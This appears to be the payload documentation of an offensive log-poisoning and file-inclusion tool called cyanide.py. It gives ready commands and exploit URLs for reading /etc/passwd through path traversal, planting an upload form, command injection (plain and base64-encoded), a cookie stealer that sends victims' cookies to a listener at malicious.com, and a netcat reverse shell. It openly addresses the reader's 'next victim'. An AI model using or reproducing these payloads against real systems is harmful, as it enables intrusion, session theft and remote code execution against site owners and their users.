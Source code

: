 # Payloads
## Reading Files
<small>PHP • min. 130 characters • 0 arguments</small>

Enables the reading of files in the victim's machine using the *?f=* argument on the logs page. Ex.:

**Poisoning**
```bash
./cyanide.py -pl PHPREADFILE -P page -u https://google.com/
```

**Exploiting**
```url
https://google.com/?page=../../../../../var/log/apache2/access.log&f=/etc/passwd
```

## Uploading Files
<small>PHP • min. 328 characters • 0 arguments</small>

Adds a file upload form to the log page. Ex.:

**Poisoning**
```bash
./cyanide.py -pl PHPUPLOAD -P page -u https://google.com/
```

**Exploiting**
```url
https://google.com/?page=../../../../../var/log/apache2/access.log
<!-- Find the form and input your file. -->
```

## Cookie Stealer
<small>JS • min. 104 characters • 1 arguments</small>

Appends a cookie stealer to the logs page that sends cookies over to a server (listener) of your choice. Send a link to your next victim and get their cookies sent in the request to your server. Ex.:

**Poisoning**
```bash
./cyanide.py -pl JSCOOKIEXSS http://malicious.com/ -P page -u https://google.com/
```

**Exploiting**

Send a link to the logs page to your next victim. Watch your malicous listener and see the cookie appear in the requests!

## Command Injection
<small>PHP • min. 72 characters • 0 arguments</small>

Allows for command injection on the logs page using the *?c=* parameter. Ex.:

**Poisoning**
```bash
./cyanide.py -pl PHPCMD -P page -u https://google.com/
```

**Exploiting**
```url
https://google.com/?page=../../../../../var/log/apache2/access.log&c=whoami
```

## Encoded Command Injection
<small>PHP • min. 102 characters • 0 arguments</small>

Allows for **base64 and URL encoded** command injection on the logs page using the *?b=* parameter. Ex.:

**Poisoning**
```bash
./cyanide.py -pl PHPB64CMD -P page -u https://google.com/
```

**Exploiting**
```url
https://google.com/?page=../../../../../var/log/apache2/access.log&b=d2hvYW1p
```

## Netcat Reverse Shell
<small>PHP • min. 78 characters • 2 arguments</small>

Loading the log page will result into reaching for a reverse shell on a specified IP and port. Ex.:

**Poisoning**
```bash
./cyanide.py -pl PHPREVSHELL 127.0.0.1 4444 -P page -u https://google.com/
```

**Exploiting**

Set a netcat listener on specified port. Ex:. `nc -lvnp 4444`
Reload the logs page

